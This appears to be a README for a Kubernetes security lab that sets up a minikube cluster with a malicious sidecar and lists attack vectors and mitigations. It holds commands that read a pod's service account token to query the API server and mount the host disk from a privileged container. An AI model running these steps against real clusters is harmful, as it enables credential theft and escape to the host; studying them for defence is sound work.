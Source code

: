 # Attacking cluster from malicious sidecar

## Minikube setup

- Install minikube
- Start with network plugin
- Add worker node, for isolation of control and data planes
- Add label for kube-system
- Label all hosts for Calico

```bash
minikube start --network-plugin=cni --cni=calico
minikube node add
kubectl label nodes minikube node-role.kubernetes.io/master=
kubectl get node -l '!node-role.kubernetes.io/master' -o custom-columns=NAME:.metadata.name | tail -n +2 | xargs -I{} kubectl label node {} kubernetes-worker=
kubectl label namespace kube-system name=kube-system
kubectl label nodes --all kubernetes-host=
```

## Cluster setup

- Build the sidecar

```bash
docker build . -t malicious-sidecar
```

- Setup the cluser

```bash
kubectl apply -f cluster/
```

- Check pods are healthy with

```bash
kubectl get pods
```

- Jump to sidecar terminal with

```bash
kubectl exec --stdin --tty <insert-pod-name> -c sidecar-container -- /bin/bash
```

Or simply

```bash
kubectl get pods -l app=simple-webapp -o name | rg "pod/" -r "" | head -n 1 | xargs -o -J % kubectl exec -it % -c sidecar-container -- /bin/bash
```

## Cluster models

### Insecure cluster

- Pod-level service account
- No admission control
- Shared network interface (localhost), unblockable with NetworkPolicy
  - Kubernetes constraint, Pod is the lowest security boundary
  - Blocking this requires manual tweaking

### Secure cluster

- Automatic mounting of service account disabled, mount only where needed (or automatic default which has no permission, mount more priviledged SA where needed)
- Admission control to prevent MutatingWebhooks causing misconfigurations (automatic tools like `istioctl` use these, malicious installation could force priviledged containers?)
- Calico to block localhost ports? (network isolation)

## Attack vectors

### Kubernetes service account

- Service account in `/run/secrets/kubernetes.io/serviceaccount` (token, namespace, cert)

Running `kubectl` with the service account

```bash
kubectl --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt --server=https://192.168.65.4:6443 auth can-i --list
```

### Mount host (priviledged=true)

<https://www.optiv.com/insights/source-zero/blog/kubernetes-attack-surface>

Find disks from /proc folder. I found `/dev/vda1` from `/proc/mounts` file.

```bash
mount /dev/vda1 /mnt-test/
```

### Cloud metadata API, and expanding attack to other cloud services

- Get Node credentials

## Mitigations

- Own service account for sidecar
- Disallow hostNetwork, hostPID, hostIPC, privileged, host-root
- TODO:
  - Network policies (egress rules, pods should not have access to places they do not need)
  - Pod security
    - Volume whitelists (no root volumes)
    - Root limits (no priviledge, container user?)
    - AppArmor
